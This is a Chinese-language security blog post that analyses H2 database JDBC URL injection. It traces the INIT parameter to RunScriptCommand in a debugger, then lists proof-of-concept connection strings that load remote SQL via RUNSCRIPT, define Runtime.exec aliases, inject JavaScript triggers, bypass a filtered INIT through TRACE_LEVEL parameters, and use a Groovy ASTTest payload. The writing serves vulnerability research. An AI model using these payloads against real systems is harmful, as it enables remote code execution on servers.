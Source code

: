 # Java JDBC Attack-H2

  
  
&lt;!--more--&gt;  
## 0x01 漏洞分析  
pom.xml  
```xml  
&lt;dependency&gt;    
    &lt;groupId&gt;com.h2database&lt;/groupId&gt;    
    &lt;artifactId&gt;h2&lt;/artifactId&gt;    
    &lt;version&gt;2.0.204&lt;/version&gt;    
&lt;/dependency&gt;  
```  
Demo  
```java  
import java.sql.Connection;    
import java.sql.DriverManager;    
    
public class JDBC_H2Database {    
    public static void main(String[] args) throws Exception {    
        String ClassName = &#34;org.h2.Driver&#34;;    
        String JDBC_Url = &#34;jdbc:h2:mem:test;INIT=RUNSCRIPT FROM &#39;http://127.0.0.1:8888/poc.sql&#39;&#34;;    
        String username = &#34;root&#34;;    
        String password = &#34;root&#34;;    
        Class.forName(ClassName);    
        Connection connection = DriverManager.getConnection(JDBC_Url, username, password);    
    }    
}  
```  
poc.sql  
```sql  
DROP ALIAS IF EXISTS shell;  
CREATE ALIAS shell AS $$void shell(String s) throws Exception {  
    java.lang.Runtime.getRuntime().exec(s);  
}$$;  
SELECT shell(&#39;open -a Calculator&#39;);  
```  
在`getConnection()`打断点调试，跟进到`org.h2.Driver#connect()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172219414.png)
在这里调用了 JdbcConnection 构造函数，跟进查看，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172220508.png)
调用了`ConnectionInfo()`处理了 url，再调用了`SessionRemote(ci).connectEmbeddedOrServer`继续跟进  
这里调用了`Engine.createSession`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172222020.png)
跟进这里的`openSession()`，因为`init`不为空，所以会执行`prepareLocal()`和`executeUpdate`，跟进`prepareLocal()`，调用了`prepareCommand`解析 sql 字符串，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172224466.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172225123.png)
解析完了sql字符串之后，进入到了`CommandContainer()`方法中，之后进行了返回进入到`command.executeUpdate()`方法中  
进入到`update()`方法中  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172255989.png)
继续进入到`prepared.update()`方法中  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172255128.png)
`prepared`就是`RunScriptCommand`类，所以进入到了其`update()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172256197.png)
接下来就行一条条执行 sql 语句  
其中`openInput()`，会从远端读取 sql 文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172305324.png)
## 0x02 POC  
由于JDBC连接时`INIT`只能执行一条SQL语句，所以攻击方式比较有限  
出网，打 RUNSCRIPT  
```java  
jdbc:h2:mem:test;INIT=RUNSCRIPT FROM &#39;http://127.0.0.1:8888/evil.sql&#39;  
DROP ALIAS IF EXISTS shell;  
CREATE ALIAS shell AS $$void shell(String s) throws Exception {  
    java.lang.Runtime.getRuntime().exec(s);  
}$$;  
SELECT shell(&#39;open -a Calculator&#39;);  
```  
回显  
```java  
CREATE ALIAS SHELLEXEC AS $$String shellexec(String cmd) throws java.io.IOException{  
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter(&#34;\\A&#34;);   
    return s.hasNext() ? s.next() : &#34;&#34;;   
}$$;  
  
CALL SHELLEXEC(&#39;whoami&#39;);  
```  
不出网 jdk&lt;15  
poc1  
H2和MySQL一样有INFORMATION_SCHEMA。H2提取URL中的配置时是通过分割分号`;`来提取的，因此JS代码中不能有分号，否则会报错（可以加上反斜杠代表转义），`//javascript`是H2的语法  
在H2内存数据库中创建一个触发器 TRIG_JS，该触发器在向 INFORMATION_SCHEMA.TABLES 表插入数据后执行。触发器的主体是一个JavaScript脚本  
```java  
String url = &#34;jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;)\n$$\n&#34;;  
```  
poc2  
转义多次，利用 init 塞两条语句进去  
```  
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXEC AS &#39;String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\\;return \&#34;1\&#34;\\;}&#39;\\;CALL EXEC (&#39;open -a Caulator&#39;)  
```  
绕过  
INIT被过滤的时候，`TRACE_LEVEL_SYSTEM_OUT`,`TRACE_LEVEL_FILE`,`TRACE_MAX_FILE_SIZE`能触发堆叠注入，分号需要转义  
```java  
jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=1\;CREATE TRIGGER TRIG_JS BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript  
Java.type(&#34;java.lang.Runtime&#34;).getRuntime().exec(&#34;calc&#34;)$$--  
```  
其中，如果目标机器存在groovy依赖，能打 AST 注解  
```xml  
&lt;dependency&gt;  
    &lt;groupId&gt;org.codehaus.groovy&lt;/groupId&gt;  
    &lt;artifactId&gt;groovy-sql&lt;/artifactId&gt;  
    &lt;version&gt;3.0.8&lt;/version&gt;  
&lt;/dependency&gt;  
```  
```java  
String url = &#34;jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS &#39;@groovy.transform.ASTTest(value={ assert java.lang.Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;)})def x&#39;&#34;;  
```  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/java-jdbc-attack-h2/  

